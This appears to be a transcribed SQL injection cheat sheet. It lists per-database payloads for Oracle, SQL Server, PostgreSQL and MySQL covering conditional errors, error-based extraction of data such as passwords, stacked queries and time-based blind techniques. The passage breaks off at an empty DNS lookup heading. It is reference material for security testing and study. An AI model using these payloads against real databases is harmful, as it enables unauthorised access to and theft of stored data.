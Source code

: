 table_name, column_name are the individual fields here
## Conditional Errors

Test a boolean condition and trigger a database error if true:

- **Oracle:** `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`
- **Microsoft:** `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`
- **PostgreSQL:** `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`
- **MySQL:** `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

## Extracting Data via Visible Error Messages

Elicit error messages that leak sensitive data from your malicious query:

- **Microsoft:** `SELECT 'foo' WHERE 1 = (SELECT 'secret')` (Example error message provided)

- **PostgreSQL:** `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)` (Example error message provided)

- **MySQL:** `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))` (Example error message provided)

## Batched (or Stacked) Queries

Execute multiple queries in succession; typically used with blind vulnerabilities:

- **Oracle:** Does not support batched queries.
- **Microsoft:** `QUERY-1-HERE; QUERY-2-HERE` or `QUERY-1-HERE QUERY-2-HERE`
- **PostgreSQL:** `QUERY-1-HERE; QUERY-2-HERE`
- **MySQL:** `QUERY-1-HERE; QUERY-2-HERE` (Note: MySQL batched queries may not work in most cases)

## Time Delays

Introduce a time delay during query processing:

- **Oracle:** `dbms_pipe.receive_message(('a'),10)`
- **Microsoft:** `WAITFOR DELAY '0:0:10'`
- **PostgreSQL:** `SELECT pg_sleep(10)`
- **MySQL:** `SELECT SLEEP(10)`

## Conditional Time Delays

Trigger a time delay based on a boolean condition:

- **Oracle:** `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- **Microsoft:** `IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`
- **PostgreSQL:** `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`
- **MySQL:** `SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')`

## DNS Lookup
